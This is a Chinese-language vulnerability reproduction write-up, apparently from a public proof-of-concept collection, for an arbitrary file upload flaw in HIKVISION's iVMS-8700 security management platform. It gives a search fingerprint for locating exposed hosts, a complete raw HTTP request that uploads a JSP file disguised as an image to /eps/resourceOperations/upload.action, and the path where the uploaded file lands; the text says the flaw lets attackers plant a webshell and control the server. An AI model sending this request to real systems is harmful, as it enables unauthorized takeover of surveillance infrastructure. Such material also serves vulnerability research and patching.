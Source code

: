 # HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019-20230622122052279.png)

发送请求包上传文件

```python
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684382043879-83c87924-60a0-40d2-a8b4-54210e068734.png)

```python
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684382084856-9d10ea21-17af-4290-89ed-76420b8b3cd9.png)